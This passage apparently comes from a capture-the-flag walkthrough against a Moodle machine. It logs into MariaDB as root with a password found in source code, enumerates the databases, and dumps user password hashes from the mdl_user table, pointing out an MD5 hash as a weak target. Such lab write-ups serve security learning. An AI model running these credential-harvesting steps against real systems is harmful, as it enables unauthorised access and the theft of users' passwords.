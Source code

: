 We can see the system that is running the database(mariadb), and some credentiales for the database(root:Welkom1!)

If we try to login to mariadb
```bash
mariadb -u root -p
```
And we enter the password 'Welkom1!', we are inside the database!

### Enumerate the database

We can list the databases:
```sql
show databases;
```
Output:
```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| moodle             |
| mysql              |
| performance_schema |
| phpmyadmin         |
+--------------------+
```
moodle is an interesting database worth to explore.

Now we can list the tables:
```sql
show tables;
```
Now we have a lot of tables, but there is one particular table which drag my attention called *mdl_user*

We can describe the table;
```sql
describe mdl_user;
```

Now we have a lot of rows but again there are some rows particulally interesting, username and password.

So we create a query to list all the data about that fields:

```sql
select username, password from mdl_user;
```
We have and output:
```
+-------------+--------------------------------------------------------------+
| username    | password                                                     |
+-------------+--------------------------------------------------------------+
| guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
| admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
| giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| Giovannibak | 7a860966115182402ed06375cf0a22af                             |
+-------------+--------------------------------------------------------------+
```
As we can see there some password hashed but there is one from the user Giovannibak which is different and can remember us md5.

